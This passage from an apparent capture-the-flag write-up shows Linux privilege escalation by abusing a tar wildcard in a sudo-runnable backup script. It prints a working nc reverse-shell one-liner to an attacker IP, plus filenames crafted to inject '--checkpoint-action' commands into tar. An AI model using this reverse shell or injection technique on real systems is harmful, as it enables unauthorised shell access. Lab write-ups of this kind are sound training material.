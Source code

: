 Flag 2 is in jake's home folder.

---
## Flag 3

Checking in the usual places for Linux privesc, I immediately notice we can run a script as michael.  Unfortunately we don't have write access to the script, but the script does use tar with a wildcard.

```
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
jake@the-marketplace:~$ cat /opt/backups/backup.sh
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
jake@the-marketplace:~$ ls -al /opt/backups/
total 24
drwxrwxrwt 2 root    root     4096 Aug 23  2020 .
drwxr-xr-x 4 root    root     4096 Aug 23  2020 ..
-rwxr-xr-x 1 michael michael    73 Aug 23  2020 backup.sh
-rw-rw-r-- 1 jake    jake    10240 Aug 23  2020 backup.tar
```

I googled "exploiting tar wildcard" and got [this](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) article as the first result.

Essentially we are creating files that are then interpreted as arguments for tar.

```
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.18.7 4444 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpoint=1
jake@the-marketplace:/opt/backups$ sudo -u michael ./backup.sh 
Backing up files...
tar: /opt/backups/backup.tar: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
```

We have to correct permissions on backup.tar:

```
jake@the-marketplace:/opt/backups$ chmod 777 backup.tar
jake@the-marketplace:/opt/backups$ 
```

Now we can get a reverse shell and upgrade (don't forget to start your listener):

```
ake@the-marketplace:/opt/backups$ sudo -u michael ./backup.sh
Backing up files...
tar: backup.tar: file is the archive; not dumped
```
